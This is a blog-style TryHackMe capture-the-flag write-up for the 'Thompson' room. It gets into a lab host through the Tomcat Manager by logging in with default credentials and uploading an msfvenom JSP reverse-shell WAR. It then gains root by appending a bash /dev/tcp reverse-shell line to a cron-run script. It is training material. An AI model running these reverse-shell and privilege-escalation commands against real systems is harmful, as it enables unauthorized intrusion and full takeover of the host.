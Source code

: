```yaml
---
title: 'THM Writeup - Thompson'
description: 'THM Writeup - Thompson'
date: 2025-01-03T18:59:48+01:00
tags: ['pentest','tryhackme','writeup']
image: './thm-thompson.png'
authors: ['manfcg']
---
```


Room link: https://tryhackme.com/r/room/bsidesgtthompson

I started with enumeration
```bash
nmap -oN nmap.txt -Pn -T4 -sC -sV 10.10.188.85
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13    Apache Jserv (Protocol v1.3)
8080/tcp open  http     Apache Tomcat 8.5.5
```

I went to the site `http://10.10.188.85:8080`

![](1.png)

I clicked Manager App and it asked me for a login

![](2.png)

I tried `admin:tomcat` and `tomcat:tomcat` but it didn't let me in, so I pressed cancel button and it displayed some interesting information

![](3.png)

By using username `tomcat` and password `s3cret` I was able to log in to the site

![](4.png)

Scrolling down, I noticed that I could upload a `.war` file - I didn't know what it was, but after a quick Google search, I found out that it's a file used to [distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes](https://en.wikipedia.org/wiki/WAR_(file_format))

![](5.png)

I checked the available metasploit payloads

![](6.png)

I used `java/jsp_shell_reverse_tcp` using the

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > rev.war
```

In the second terminal window I turned on `msfconsole` and typed:
- `use multi/handler`
- `set payload java/jsp_shell_reverse_tcp`

![](7.png)

I also set `LHOST` and `LPORT` based on what I typed into `msfvenom`
- `set LHOST=IP`
- `set LPORT=PORT`

at the end i typed `exploit`

and I uploaded this exploit to the site

![](8.png)

after clicking on `/rev` i was possible to access the shell. I immediately spawned beter one, using python

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

![](9.png)

Going through the directories, I managed to find the flag of the user

![](10.png)

Time to escalate permissions, I checked `sudo -l` but it told me to enter the password, so I'll try to find another way

Let's check the crontab `cat /etc/crontab`

![](11.png)

well, and we have something interesting, `id.sh` in jack's home directory - I'll just check the permissions of this file via the `ls -la /home/jack/id.sh` command

![](12.png)

great, it looks like this could be our way to escalate permissions, let's just check what's in this file

![](13.png)

I will add a reverse shell using `echo`:

```bash
echo "bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1" >> /home/jack/id.sh
```

in the next terminal window I enabled netcat

```bash
nc -nvlp LPORT
```

and after a while I was able to access the root shell. All that was left was to pull the root flag

![](14.png)